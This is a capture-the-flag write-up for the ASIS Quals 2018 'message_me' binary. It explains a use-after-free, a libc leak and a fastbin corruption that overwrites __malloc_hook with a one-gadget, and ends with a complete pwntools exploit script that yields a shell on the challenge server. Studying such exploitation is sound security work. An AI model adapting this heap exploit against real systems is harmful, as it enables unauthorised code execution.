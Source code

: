 ```yaml
---
title:  Asis Quals 2018 Message
updated: 2018-05-01 14:24:55
tags: [pwn,writeup]
---
```


- [message_me](#orga6a7613)


<a id="orga6a7613"></a>

# message_me

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

The program provide the following options

       Message System
    ---------------------
    0 : Add a message
    1 : Remove the message
    2 : Show the message
    3 : Change the timestamp
    ---------------------
    choice :

There is a table in bss which follows this structure

    struct entry
    {
    int timestamp;
    char message[size];
    }

we can create new message entry with the add message option . The change timestamp option adds a random number between 0-9 to the timestamp . The show message option displays the time as a string and displays the message .

There is a UAF on the free option which does not null out the entry even if it is freed . We can do fastbin corruption and allocate a fastbin chunk near __malloc_hook_ and overwrite it with one gadget . But We do not control first 8 bytes of the structure , it will contain the time .

Another thing is that the time is printed with ctime and it uses heap internally so calling the show option will mess up our heap ,

On to the libc leak , creating a chunk will place the a heap pointer on to the table and we will delete it . because of the uaf bug it will be there in the table and the ctime in view option manipulates the heap ( I don't really now what happens inside that function ) and the end result is that we get a libc address of main arena in message section of the object which will be printed out . We have our libc leak .

Next is we have to get the address of __malloc_hook_-0x23 on to the fastbinY array to allocate a chunk on the libc .

The trick is to create a fake chunk ( who's fd points to the libc ) on a the heap and use the change time stamp option to manipulate the fd of the freed fastbin chunk to point to that location . since the seed of the random number generator is fixed we can predict the number generated on every iteration .

```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
  srand(1);
  for ( int i = 0 ; i <= 9 ; i++)
    printf("%d\n",rand()%10);

  return 0;
}
```

    3
    6
    7
    5
    3
    5
    6
    2
    9
    1

These same number will be generated on every execution .

We will create two chunk , which the first containing the fake chunk .

```python
payload = p64([                                                                                                                               
    0x0,                                                                                                                                      
    0x0,                                                                                                                                      
    0x71,                                                                                                                                     
    fake_chunk,                                                                                                                               
    0x0,])                                                                                                                                    
create(0x60,payload)                                                                                                                          
create(0x60,"")                                                                                                                               
delete(1)                                                                                                                                     
delete(2)    
```

     +-------------------+
     |       0x71        | -------------> [1]
     +-------------------+			  
     |        fd         | ---> null
     +-------------------+			  
     |                   |			  
     |                   |			  
     |+-----------------+|			  
     ||       0x71      || --------------> [fake_chunk]
     |+-----------------+|	
     ||__malloc_hook-0x23|		       	  
     |+-----------------+|		       	  
     ||                 ||		       	  
     ||                 ||		       	  
     |+-----------------+|		       	  
     +-------------------+		       	  
     |        0x71       | ---------------> [2]
     +-------------------+	
     |        fd         | ----> points to [1]
     +-------------------+	
     |                   |	
     |                   |	
     |                   |	
     |                   |	
     +-------------------+	
    
    fastbinY : [2] -> [1] 

calling change on 2 will add the random number to the fd which points to [1] , we can increment this number to point to out fake chunk

```python
change(2)
change(2)
change(2)
change(2)
change(1)
change(2)
change(2)
```

    fastbinY : [2]  -> [fake_chunk] -> [__malloc_hook-0x23]

We will create two new object and the third will give return a pointer on libc and we can give one gadget to the __malloc_hook . Then just trigger the hook .

```python
from pwn import *
from datetime import datetime

def p64(hex):
    from struct import pack
    return pack('<' + 'Q' * len(hex), *hex)
context.arch = 'amd64'
context.bits = 64
if True:
    context.log_level = "debug"
    io = remote ("159.65.125.233", 6003)
else:
    context.log_level = "debug"
    context.terminal = ['tmux', 'splitw', '-h']
    env = {'LD_PRELOAD' : './libc.so.6'}
    io = process('./message_me' ,env=env)
    gdb.attach(io,'''

    ''')

def create(size,msg):
        io.recvuntil("choice : ")
        io.sendline(str(0))
        io.recvuntil("Give me the message size : ")
        io.sendline(str(size))
        io.recvuntil("Give me your meesage : ")
        io.sendline(str(msg))

def view(idx):
        io.recvuntil("choice : ")
        io.sendline(str(2))
        io.recvuntil("Give me index of the message : ")
        io.sendline(str(idx))

def delete(idx):
        io.recvuntil("choice : ")
        io.sendline(str(1))
        io.recvuntil("Give me index of the message : ")
        io.sendline(str(idx))

def change(idx):
        io.recvuntil("choice : ")
        io.sendline(str(3))
        io.recvuntil("Give me index of the message : ")
        io.sendline(str(idx))
def leak():
    io.recvuntil("Message : ")
    return u64(io.recv(6) + "\x00\x00")


create(0x20,"A")
delete(0)
view(0)


libc_leak = leak()
libc = libc_leak - 0x3c4b78
fake_chunk = libc + 0x3c4aed
magic = libc + 0xf02a4
log.info("Libc Leak :" +hex(libc))

create(0x20,"A")
delete(1)

payload = p64([
    0x0,
    0x0,
    0x71,
    fake_chunk,
    0x0,])


create(0x60,payload)
create(0x60,"")

delete(2)
delete(3)

change(3)
change(3)
change(3)
change(3)
change(2)
change(3)
change(3)

create(0x60,"")
create(0x60,"")

payload = "\x00" * 0x3
payload += p64([
    0x0,
    magic
])
create(0x60,payload)

delete(1)
io.interactive()
```
